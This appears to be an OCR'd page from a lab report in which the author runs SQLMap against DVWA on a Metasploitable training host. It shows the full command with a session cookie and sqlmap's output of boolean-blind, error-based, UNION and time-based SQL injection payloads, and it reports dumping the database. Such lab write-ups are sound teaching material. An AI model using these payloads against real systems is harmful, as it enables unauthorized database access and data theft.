 \documentclass{article}
\begin{document}
\begin{figure}[h!]
	\includegraphics[width=\linewidth]{images/dvwa-sql-injection.png}
	\caption{SQL injection page.}
	\label{fig:sql-injection}
\end{figure}

With a value URL and Session cookie I can now use SQLMap to test out sql injection attacks.
I was able to get a dump of the database exported as csv files.

\begin{lstlisting}[language=Bash]
\./sqlmap.py -u "http://metasploitable.sait230.ca/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=40ae620791b3658e5ee7eaaefbef49dc;" --tables
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4543=4543 AND 'qoRs'='qoRs&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=1' AND (SELECT 1602 FROM(SELECT COUNT(*),CONCAT(0x3a716a663a,(SELECT (CASE WHEN (1602=1602) THEN 1 ELSE 0 END)),0x3a6664633a,FLOOR(RAND(0)*2))x FROM INFORMATION_
SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'lZPr'='lZPr&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' LIMIT 1,1 UNION ALL SELECT CONCAT(0x3a716a663a,0x4b574169554a4c62647a,0x3a6664633a), NULL#&Submit=Submit

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: id=1' AND SLEEP(5) AND 'QNHQ'='QNHQ&Submit=Submit
---
\end{lstlisting}
\end{document}
